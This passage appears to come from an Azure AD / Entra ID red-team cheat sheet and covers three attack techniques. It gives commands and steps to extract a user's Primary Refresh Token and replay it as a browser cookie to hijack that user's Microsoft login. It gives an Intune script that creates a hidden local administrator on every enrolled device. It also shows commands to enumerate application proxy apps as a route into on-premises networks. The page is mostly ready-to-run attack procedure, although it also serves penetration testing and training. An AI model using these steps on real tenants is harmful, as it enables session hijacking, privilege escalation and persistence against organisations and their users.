 #### Extract PRT
- Should be run on session of the targer Azure AD User
- https://github.com/dirkjanm/ROADtools
- https://aadinternals.com/aadinternals/
```
C:\AzAD\Tools\ROADToken.exe <nonce>
Get-AADIntUserPRTToken
````

#### Copy the value from above command and use it with a web browser
- Open the Browser in Incognito mode
- Go to https://login.microsoftonline.com/login.srf
- Press F12 (Chrome dev tools) -> Application -> Cookies
- Clear all cookies and then add one named `x-ms-RefreshTokenCredential` for https://login.microsoftonline.com and set its value to that retrieved from AADInternals
- Mark HTTPOnly and Secure for the cookie
- Visit https://login.microsoftonline.com/login.srf again and we will get access as the user!
- Can now also access portal.azure.com

## Entra ID To On Premises
### Intune
- a user with Global Administrator or Intune Administrator role can execute PowerShell scripts on an enrolled Windows device. The script runs with privileges of SYSTEM on the device.
- If user had Intune Administrator role go to https://endpoint.microsoft.com/#home and login (or from a ticket (PRT)
- Go to Devices -> All Devices to check devices enrolled to Intune:
- Go to Scripts and Click on Add for Windows 10. Create a new script and select a script
- Example script adduser.ps1

```
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
New-LocalUser -Name <USERNAME> -Password $passwd
Add-LocalGroupMember -Group Administrators -Member <USERNAME>
```

- Select `Run script in 64 bit PowerShell Host`
- On the assignment page select "Add all users" and "add all devices"

### Application proxy abuse
- The application behind the proxy may have vulnerabilities to access the on-prem environment.

#### Enumerate application which has a application proxy configured
```
Import-Module .\AzureAD.psd1
Get-AzureADApplication | %{try{Get-AzureADApplicationProxyApplication -ObjectId $_.ObjectID;$_.DisplayName;$_.ObjectID}catch{}}
```

#### Get the Service Principal (use the application name)
```
Get-AzureADServicePrincipal -All $true | ?{$_.DisplayName -eq "<APPLICATION NAME>"} 
```

